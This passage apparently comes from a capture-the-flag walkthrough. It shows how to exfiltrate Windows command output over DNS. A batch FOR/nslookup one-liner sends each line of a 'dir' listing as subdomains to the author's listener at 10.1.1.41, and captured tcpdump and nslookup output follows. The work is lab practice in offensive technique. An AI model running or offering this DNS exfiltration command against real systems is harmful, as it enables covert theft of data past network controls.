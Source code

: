 

If I grep out just the A records:



    11:35:55.296505 IP 10.1.1.153.56259 > 10.1.1.41.53: 2+ A? Volume.in.drive. (33)
    11:35:55.319970 IP 10.1.1.153.56262 > 10.1.1.41.53: 2+ A? Volume.Serial.Number. (38)
    11:35:57.338883 IP 10.1.1.153.56265 > 10.1.1.41.53: 2+ A? Directory.of.C:Users0xdftest. (46)
    11:35:59.364047 IP 10.1.1.153.56268 > 10.1.1.41.53: 2+ A? 02/25/2019.07:04.AM. (37)
    11:36:01.426274 IP 10.1.1.153.56271 > 10.1.1.41.53: 2+ A? 02/25/2019.07:04.AM. (37)
    11:36:03.487602 IP 10.1.1.153.56274 > 10.1.1.41.53: 2+ A? 0.File(s).0. (29)
    11:36:05.527818 IP 10.1.1.153.56277 > 10.1.1.41.53: 2+ A? 2.Dir(s).4,917,108,736. (40)



So I'm getting the start of the dir list.

### nslookup Command Output

Now I'll send full command output over dns. I'll comment out the
terminal lines at the end of `ethereal_shell.py` that that I'm just
running the dns part, and run it.

Now I'll try to get the output of a dir command. I'll use the full 26
tokens, and run something like this:
`FOR /F "tokens=1-26" %a IN ('dir /x .') DO ( nslookup %a.%b.%c.%d.%e.%f.%g.%h.%i.%j.%k.%l.%m.%n.%o.%p.%q.%r.%s.%t.%u.%v.%w.%x.%y.%z 10.1.1.41`.
The idea is to do a `dir` (with `/x` to get long and short file names),
and for each line, break it on whitespace, and send it out with each
word being a subdomain in the dns lookup. But this fails (errors on
Windows VM and nothing on Kali listener):



    C:\Users\0xdf\test>@echo off & (FOR /F "tokens=1-26" %a IN ('dir /x .') DO ( nslookup %a.%b.%c.%d.%e.%f.%g.%h.%i.%j.%k.%l.%m.%n.%o.%p.%q.%r.%s.%t.%u.%v.%w.%x.%y.%z 10.1.1.41)) & @echo on
    Server:  UnKnown
    Address:  10.1.1.41

    *** UnKnown can't find Volume.in.drive.C.has.no.label....................: Unspecified error
    Server:  UnKnown
    Address:  10.1.1.41

    *** UnKnown can't find Volume.Serial.Number.is.F06E-7663.....................: Unspecified error
    Server:  UnKnown
    Address:  10.1.1.41

    *** UnKnown can't find Directory.of.C:\Users\0xdf\test.......................: Unspecified error
    Server:  UnKnown
    Address:  10.1.1.41

    *** UnKnown can't find 02/25/2019.07:04.AM.<DIR>.......................: Unspecified error
    Server:  UnKnown
    Address:  10.1.1.41

    *** UnKnown can't find 02/25/2019.07:04.AM.<DIR>........................: Unspecified error
    Server:  UnKnown
    Address:  10.1.1.41
